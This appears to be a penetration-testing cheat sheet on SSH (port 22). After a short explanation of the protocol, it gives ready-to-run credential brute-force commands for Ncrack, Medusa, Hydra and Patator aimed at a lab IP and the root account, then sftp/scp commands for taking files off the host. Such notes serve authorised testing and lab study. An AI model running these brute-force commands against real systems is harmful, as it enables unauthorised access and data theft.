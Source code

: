 ```yaml
---
title: PORT 22/tcp - SSH
category: Services
order: 2
---
```


# Introduction

The SSH protocol works on the client/server-model. The SSH client always initiates the setup of the secure connection, and the SSH server listens for incoming connection requests (usually on TCP port 22 on the host system) and responds to them.

In the connection setup phase, the SSH server authenticates itself to the client by providing its public key. This allows the SSH client to verify that it is actually communicating with the correct SSH server (instead of an attacker that could be posing as the server).

After a successful authentication the server provides the client access to the host system. This access is governed with the user account permissions at the target host system.


# Bruteforcing Credentials

To bruteforce the login in order to find valid credentials we can use different tools:

* Ncrack
```
ncrack -U usernames.txt -P passowrds.txt ssh://10.10.10.10 -v
ncrack -u root -P passowrds.txt ssh://10.10.10.10 -v
```

* Medusa
```
medusa -h 10.10.10.10 -U usernames.txt -P passowrds.txt -M ssh
medusa -h 10.10.10.10 -u root -P passowrds.txt -M ssh
```

* Hydra
```
hydra -L usernames.txt -P passwords.txt ssh://10.10.10.10 -s 22
hydra -l root -P passwords.txt ssh://10.10.10.10 -s 22
```

* Patator
```
patator ssh_login host=10.10.10.10 user=FILE0 password=FILE1 0=users.txt  1=pass.txt -x ignore:mesg='Authentication failed'
patator ssh_login host=10.10.10.10 user=root password=FILE0 0=pass.txt -x ignore:mesg='Authentication failed'
```

# Download Files

To download files we can use `sftp` or `scp`:

* SFTP

Is like ftp:

```
sftp root@ip

> get file.txt
> get -r folder/
```

* SCP

```
scp root@ip:/tmp/file.txt file.txt
scp -r root@ip:/tmp/folder folder 
```
